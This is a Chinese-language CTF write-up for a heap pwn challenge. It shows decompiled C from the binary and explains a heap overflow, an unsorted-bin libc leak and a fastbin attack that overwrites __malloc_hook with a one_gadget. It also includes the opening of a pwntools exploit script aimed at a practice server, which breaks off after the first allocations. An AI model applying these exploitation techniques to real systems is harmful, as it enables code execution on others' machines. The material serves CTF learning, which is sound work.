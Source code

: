 Dump打印内容，注意它是根据Allocate时存储的size来决定打印多少的，这种结构10个里面7个有问题。

```c
int __fastcall Dump(__int64 a1)
{
  int result; // eax
  int v2; // [rsp+1Ch] [rbp-4h]

  printf("Index: ");
  result = GetInput();
  v2 = result;
  if ( result >= 0 && result <= 15 )
  {
    result = *(_DWORD *)(24LL * result + a1);
    if ( result == 1 )
    {
      puts("Content: ");
      sub_130F(*(_QWORD *)(24LL * v2 + a1 + 16), *(_QWORD *)(24LL * v2 + a1 + 8));
      result = puts(byte_14F1);
    }
  }
  return result;
}
```

看来漏洞只有个堆溢出。由于开了全relro，不能用普通的改got表为system的方法了，要想办法往`__malloc_hook`里填one_gadget地址。这就很容易想到fastbin attack中的一个技术——让malloc返回任意地址处的堆块。如果我们能让malloc返回`__malloc_hook`周围地址的堆块，就能改写`__malloc_hook`了。堆溢出在手，这点不难办到，通过溢出修改一个堆块的fd指针，由于malloc根据fd指针取堆块，所以如果我们把fd指针改到`__malloc_hook`附近，就能分配到那块区域了。

还有个问题，这次有pie，我们需要先泄露地址。这里有个关于[unsorted bin泄露地址](https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/unsorted-bin-attack/#unsorted-bin-leak)的小技巧：当unsorted bin中只有一个堆块时，其fd与bk都是main_arena + offset。意味着如果我们能打印出一个已经进入unsorted bin的堆块的fd或者bk，减去某个偏移就时main_arena的地址了。得到main_arena的地址再减去main_arena的偏移就是libc_base。这个减去的值一般是0x3c4b78，包含offset和main_arena本身的偏移。最后的问题时我们怎么打印出fd和bk？这就要用到chunk extend and overlapping了。直接看exp吧，大佬讲的很清楚。

```python
from pwn import *

context.log_level = 'debug'
p=remote("node4.buuoj.cn",29543)

def add(size):
    p.sendlineafter('Command: ','1')
    p.sendlineafter('Size: ',str(size))

def edit(idx,content):
    p.sendlineafter('Command: ','2')
    p.sendlineafter('Index: ',str(idx))
    p.sendlineafter('Size: ',str(len(content)))
    p.sendlineafter('Content: ',content)

def delete(idx):
    p.sendlineafter('Command: ','3')
    p.sendlineafter('Index: ',str(idx))

def show(idx):
    p.sendlineafter('Command: ','4')
    p.sendlineafter('Index: ',str(idx))

#---------------这3个一组，是为了泄漏libc地址----------#
add(0x10)#0
add(0x10)#1
add(0x80)#2
#---------------这3个一组，是为了fastbin attack 覆写malloc hook 为one_gadget ----------#
add(0x30)#3
add(0x68)#4
```